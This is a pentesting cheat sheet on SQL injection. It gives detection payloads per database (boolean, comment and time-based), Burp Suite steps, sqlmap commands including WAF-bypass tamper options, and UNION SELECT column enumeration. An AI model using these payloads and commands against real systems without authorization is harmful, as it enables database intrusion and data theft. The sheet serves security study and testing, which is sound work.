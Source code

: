 ## SQL Injection

- **What it is**
  - A web vulnerability where attackers can inject malicious SQL code into database queries
  - Allows unauthorized access to database content
  - Can lead to data theft, manipulation, or server compromise
  - Occurs when user input is improperly sanitized before being used in SQL queries

- **How can we identify it**
  - Single quote test: `parameter=value'`
  - Double quote test: `parameter=value"`
  - Boolean logic tests:
    - `parameter=value' OR '1'='1`
    - `parameter=value' OR '1'='2`
  - Comment tests:
    - `parameter=value'--`
    - `parameter=value'#`
  - Look for database error messages:
    - MySQL: "You have an error in your SQL syntax"
    - MSSQL: "Unclosed quotation mark"
    - Oracle: "ORA-" errors
    - PostgreSQL: "ERROR: syntax error at or near"
  - Time-based detection:
    - MySQL: `parameter=value' AND SLEEP(5)--`
    - MSSQL: `parameter=value'; WAITFOR DELAY '0:0:5'--`
    - PostgreSQL: `parameter=value'; SELECT pg_sleep(5)--`
    - Oracle: `parameter=value' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('RDS',5)--`

- **How to use Burp Suite for detection**
  - Capture target request
  - Send to Repeater (Ctrl+R)
  - Modify parameter values with test payloads
  - Analyze responses for errors or behavioral changes
  - For automated testing:
    - Send to Intruder (Ctrl+I)
    - Set payload position (§value§)
    - Load SQL injection payload list
    - Start attack and look for anomalies

- **How to use SQLMap**
  - Basic scan: `sqlmap -u "https://target.com/page.php?id=1"`
  - Scan specific parameter: `sqlmap -u "https://target.com/page.php?id=1" -p id`
  - Use request file: `sqlmap -r request.txt`
  - With cookies: `sqlmap -u "https://target.com/page.php?id=1" --cookie="PHPSESSID=1234"`
  - Bypass WAF: `sqlmap -u "https://target.com/page.php?id=1" --tamper=space2comment,between,charencode`

- **How do we find injectable columns**
  - Determine number of columns using ORDER BY:
    - `parameter=1' ORDER BY 1--`
    - `parameter=1' ORDER BY 2--`
    - Continue incrementing until error occurs
    - Error indicates previous number is column count
  - Alternatively, use UNION SELECT NULL technique:
    - `parameter=1' UNION SELECT NULL--`
    - `parameter=1' UNION SELECT NULL,NULL--`
    - Continue until query works (no error)
    - Number of NULLs = number of columns
  - Identify string-accepting columns:
    - `parameter=1' UNION SELECT 'a',NULL,NULL--`
    - `parameter=1' UNION SELECT NULL,'a',NULL--`
    - `parameter=1' UNION SELECT NULL,NULL,'a'--`
    - Columns accepting 'a' can be used for string data
